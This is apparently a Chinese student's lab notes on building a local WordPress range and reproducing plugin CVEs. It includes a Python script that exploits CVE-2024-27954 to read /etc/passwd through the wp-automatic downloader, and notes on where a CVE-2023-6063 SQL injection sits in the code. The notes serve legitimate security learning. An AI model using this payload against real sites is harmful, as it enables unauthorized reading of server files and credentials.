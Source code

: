 # 网络靶场攻防小实验

## 靶场搭建

搭建过程基于Ubuntu20.04，Apache的Web服务器，mysql数据库

详细的搭建可以参考该帖子……[ubuntu 22.04部署Apache服务器](https://www.netiii.com/4102/)

具体过程还是比较艰辛的，因为之前对Apache的部署没有太多了解，不同的服务架设在一台服务器之上需要暴露给外部访问方式，具体可以参考……[Apache2 在Ubuntu环境下部署多个站点（单ip配置多域名）_ubuntu apache2配置多个域名-CSDN博客](https://blog.csdn.net/Davie_Liu/article/details/117331356)。主要值得学习的是两种方式，一种是暴露不同的端口出去，另外一种是基于主机名（使用不同的域名去区分网站）

这里采取的是用不同的端口号来做区分（相对简单一点……）

把Apache部署好之后需要编写具体网页的配置文件，示例如下（重点部分是`虚拟主机`,`DocumentRoot`以及`ServerName`几个点）

相关的网页文件放在`/var/www`中，配置文件放在`/etc/apache2/sites-available`中（从网上下好相关的网页之后就需要在`sites-available`中为其写`*.conf`文件。

```markdown
<VirtualHost *:8081>
    DocumentRoot /var/www/html/wordpress
    ServerName wordpress.example.com

    <Directory /var/www/wordpress>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/wordpress_error.log
    CustomLog ${APACHE_LOG_DIR}/wordpress_access.log combined
</VirtualHost>
```

配置文件写好之后注意Apache服务器监听的端口，要在`/etc/apache2/ports.conf`配置文件中做修改，只有下面listen标记的端口才可以被监听到，想用不同的端口区分网页的话就得多开几个端口。

![image-20240702233027296](网络靶场攻防综合实验.assets/image-20240702233027296.png)

其实也就是简单搭建好了……达到一个能用的水平……

```
sudo systemctl start apache2 #启动阿帕奇服务
sudo systemctl status apache2 #检查状态
```

### docker镜像问题

docker拉镜像拉不到的话解决方案如下：[如何完美解决 “error pulling image configuration: download failed after attempts=6: dial tcp 59.188.250.54-CSDN博客](https://blog.csdn.net/qq_44866828/article/details/139745845)

使用`Snap`一键安装的docker好像就是会出现`Unit docker.service not found.`的报错，应该是管理方式不一样，如果用的指令是`sudo snap services docker`就可以看到其实还是安装了的。

……尝试了一段时间之后，docker还是拉取不了镜像下来，遂放弃使用docker……



## WordPress

### CVE-2024-25600

首先需要搭建好`wordpress`，https://cn.wordpress.org/download/（从此处下载得到，并写好配置文件）

搭建好之后个性化注册一下（大概如下）

![image-20240703111913106](网络靶场攻防综合实验.assets/image-20240703111913106.png)

然后安装具有漏洞的插件……（可以到这个位置去找[插件](https://github.com/Shelter1234/VulneraLab/tree/main/WordPress/Bricks/CVE-2024-25600)）

……插件装不上 寄了 会出现个莫名其妙的问题（其他插件就没有）

![1e99a47b35d18d01424e73938620b00](网络靶场攻防综合实验.assets/1e99a47b35d18d01424e73938620b00.png)

哦之前以为Bricks Builder是一个插件……结果发现是一个主题（对Bricks Builder不熟导致的）

![image-20240703150352857](网络靶场攻防综合实验.assets/image-20240703150352857.png)





### CVE-2024-27954

该漏洞是WordPress中的`Automatic`插件小于`3.92.1`版本易受未经验证的任意文件下载和SSRF的攻击。位于downloader.php文件中，可能允许攻击者从网站访问任何文件。敏感数据，包括登录凭据和备份文件。

先把目标插件安装上去

![image-20240703132536194](网络靶场攻防综合实验.assets/image-20240703132536194.png)

插件安装上去之后找到出问题的代码`\wp-automatic\downloader.php`文件

```

```

编写一个python脚本向WordPress发送Payload

```python
import requests
# 这里注意一下，我搭环境的端口为8081，如果不是的话需要删去
url = "http://127.0.0.1:8081/?p=3232&wp_automatic=download&link=file:///etc/passwd"
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36",
    "Connection": "close",
    "Accept": "*/*",
    "Accept-Language": "en",
    "Accept-Encoding": "gzip"
}

response = requests.get(url, headers=headers)
print(response.text)
```

可以得到满足条件的回复

![image-20240703142555370](网络靶场攻防综合实验.assets/image-20240703142555370.png)



### CVE-2023-6063

`Fastest Cache`插件中小于等于`1.2.1`的版本具有SQL注入漏洞，该漏洞可导致未经身份验证的攻击者读取站点数据库中的内容。

具有问题的代码位置在`wpFastestCache.php`中

![image-20240703152946638](网络靶场攻防综合实验.assets/image-20240703152946638.png)

代码的353行调用了一个`cache()`方法，随后会跳转到1097行的对于的私有方法`cache()`中

![image-20240703153715466](网络靶场攻防综合实验.assets/image-20240703153715466.png)



